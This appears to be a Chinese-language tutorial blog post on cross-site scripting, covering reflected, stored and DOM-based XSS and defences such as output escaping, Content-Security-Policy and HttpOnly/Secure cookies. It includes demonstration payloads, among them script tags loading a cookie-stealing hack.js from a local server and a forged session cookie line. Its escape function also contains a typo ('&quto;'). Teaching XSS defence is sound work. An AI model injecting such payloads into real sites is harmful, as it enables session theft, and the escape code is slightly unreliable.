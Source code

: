 ```yaml
---
title: 安全01 XSS攻击
sidebar: 'auto'
date: 2021-11-06
categories:
- 11安全
isShowComments: true
---
```




## 1. 什么是XSS攻击

​	Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行，从而获取用户的敏感信息如 Cookie、SessionID 等

## 2. XSS攻击分类

### 1）反射型

> 攻击流程

1.   黑客构造出包含脚本的URL
2.   用户点击URL时，网站服务器就会将脚本从URL中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受到响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户的数据，发送给黑客的服务器

![截图](https://cdn.jsdelivr.net/gh/option-star/imgs/202204062112881.png)



> 实例

```js
// 普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
</script>

// 短域名伪造 https://dwz.cn/

// 伪造cookie入侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT
Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```



:::tip

​	Web 服务器不会存储反射型 XSS 攻击的恶意脚本，这是和存储型 XSS 攻击不同的地方。

:::



### 2）存储型

> 攻击流程

1.   黑客通过论坛发帖、商品评论等途径，将脚本提交到目标网站的数据库中
2.   用户打开网站时，网站服务器将脚本从数据库中取出，拼接在HTML中返回给浏览器
3.   用户浏览器接受响应后解析执行，脚本也被执行
4.   脚本就可以窃取用户数据发送给黑客网站

![截图](https://cdn.jsdelivr.net/gh/option-star/imgs/202204062112338.png)

> 攻击实例

```js
// 评论
<script>alert(1)</script>

// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```



### 3）DOM型

> 攻击流程

​	基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 **Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据**



> DOM型与其他两种XSS的区别

DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

> 实例

​	例如，黑客构造带有恶意代码的 URL 诱导用户打开 http://www.xxx.com/index.html/?content=，浏览器收到请求后解析执行，如果使用 document.write() 、document.outerHTML 、DOM .innerHTML未经转义输出，就可能遭到攻击。

![2图](https://cdn.jsdelivr.net/gh/option-star/imgs/202204062112789.png)



## 3. 防御

### 1）转义

​	从浏览器的执行进行预防：

#### 1. **replace**

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```

#### 2. **innerHTML**

```js
function filterStr(str) {
    const div = document.createElement('div')
    div.textContent = str
    return div.innerHTML
}
filterStr('<div></div>') // &lt;div&gt;&lt;/div&gt;
```



### 2）白名单

​	使用CSP， CSP的本质是简历一个白名单，告诉浏览器哪些外部资源可以加载和执行，从而防止恶意代码的注入攻击。

> CSP的功能？

- **限制加载其他域下的资源文件**。这样即使黑客插入了一个js文件，这个js文件也是无法被加载的。
- **禁止第三方域提交数据**。这样用户数据也不会外泄。
- **禁止执行内联脚本和未授权的脚本**。
- **还提供了上报机制**。这样可以帮助我们尽快发现有哪些XSS攻击，以便尽快修复问题。



#### 1. Content-Security-Policy

设置HTTP Header的Content-Security-Policy

![img](https://cdn.jsdelivr.net/gh/option-star/imgs/202204062115661.jpeg)

```js
Content-Security-Policy:
	script-src 'self'; 
	object-src 'none';
	style-src cdn.example.org third-party.org; 
	child-src https:
```



#### 2. meta标签

```js
<meta 
	http-equiv="Content-Security-Policy" 
	content="script-src 'self'; 
	object-src 'none'; 
	style-src cdn.example.org third-party.org; 
	child-src https:
/>
```

上面代码中，CSP做了如下 配置：

-   脚本：只信任当前域名
-   `<object>`标签：不信任任何URL，即不加载任何资源
-   样式表：只信任`cdn.example.org`和`third-party.org`
-   框架（frame）：必须使用HTTPS协议加载
-   其他资源：没有限制



### 3） 防止脚本读取Cookie

#### 1. Cookie HttpOnly

​	如果cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie的信息。

​	通常**服务器**可以将某些 Cookie 设置为 HttpOnly 标志，HttpOnly 是服务器通过 **HTTP 响应头**来设置的。

> 实例

```js
// 设置cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;HttpOnly")

// 设置多个cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;HttpOnly")
response.addHeader("Set-Cookie", "uid=112;Path=/test;HttpOnly")

```

#### 2. Cookie Secure

​	Cookie添加Secure属性，只能https协议才能传输cookie, 防止中间人截取传输的cookie。

​	



> 实例

```js
// 设置https的cookie
response.addHeader("Set-Cookie", "uid=112;Path=/;Secure")
```





## 参考

1.   [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367#heading-6)
2.   [浏览器专题系列 - Web安全](https://juejin.cn/post/6926726800793927693)
3.   [Web 安全 - 跨站脚本攻击 XSS 三种类型及防御措施](https://mp.weixin.qq.com/s/7ruF1I94p4Ve3tVDb6096A)
4.   [Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)





